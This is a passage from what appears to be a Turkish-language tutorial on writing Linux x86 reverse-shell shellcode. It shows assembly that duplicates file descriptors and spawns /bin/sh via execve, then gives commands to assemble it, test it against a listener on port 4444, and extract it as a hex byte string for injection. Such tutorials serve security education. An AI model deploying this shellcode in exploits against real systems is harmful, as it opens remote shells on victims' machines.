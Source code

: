 ```nasm

dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup

  ; spawn /bin/sh using execve
  ; int execve(const char *filename, char 
  ; *const argv[],char *const envp[]);
  mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
  inc  ecx         ; argv=0
  mov  edx, ecx    ; envp=0
  push edx         ; terminating NULL
  push 0x68732f2f	 ; "hs//"
  push 0x6e69622f	 ; "nib/"
  mov  ebx, esp    ; save pointer to filename
  int  0x80        ; syscall: exec sys_execve
```

### test etmek

Şimdi, ilk bölümde olduğu gibi, bunu derleyelim ve doğru çalışıp çalışmadığını ve null baytlar içerip içermediğini kontrol edelim:

```bash
nasm -f elf32 -o rev.o rev.asm
ld -m elf_i386 -o rev rev.o
objdump -M intel -d rev
```

![compile shellcode](./images/14/2021-10-16_13-53.png){width="80%"}       

![compile shellcode 2](./images/14/2021-10-16_13-57.png){width="80%"}       

`4444` port'unda dinleyiciyi hazırlayıp çalıştıralım:
```bash
./rev
```

![compile shellcode 2](./images/14/2021-10-16_14-08.png){width="80%"}       

Mükemmel!

Daha sonra, biraz bash ile kodlama ve `objdump` kullanarak bayt kodunu çıkartalım:

```bash
objdump -d ./rev|grep '[0-9a-f]:'|grep -v 'file'|cut -f2
 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|
 sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![get hex](./images/14/2021-10-16_13-58.png){width="80%"}       
